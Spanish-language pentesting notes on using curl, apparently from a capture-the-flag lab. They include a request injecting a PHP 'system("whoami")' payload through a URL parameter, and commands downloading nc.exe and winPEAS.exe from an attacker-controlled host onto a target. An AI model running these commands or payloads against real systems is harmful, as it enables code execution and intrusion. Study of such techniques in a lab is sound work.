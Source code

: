 ** Petición a un recurso web **
`curl -s -X GET http://10.10.10.228/portal/php/admins.php`
-s silent
-X http.method

** Incluir los parámetros en la petición **
Cuando tenemos una petición web en la que se deben insertar parámetros en la dirección de la petición, podemos hacerlo de la siguiente forma:
`curl -s -X GET $main_url --data-urlencode "html=<?php system(\"whoami\"); ?>" --cookie "adminpowa=noonecares" --proxy http://127.0.0.1:8080`
Esta forma anteriormente vista enviará los datos como data dentro de la petición, no directamente como parámetros en la dirección de envío. Para incluirlos utilizaremos la opción -G. Además ya no hará falta incluir el parámetro -X de curl:
`curl -s -G $main_url --data-urlencode "html=<?php system(\"whoami\"); ?>" --cookie "adminpowa=noonecares" --proxy http://127.0.0.1:8080`

** Transferir recursos a máquina objetivo para obtener binarios sensibles **
`curl http://10.10.14.8/nc.exe -o nc.exe`
`curl http://10.10.14.8/winPEAS.exe -o winPEAS.exe`

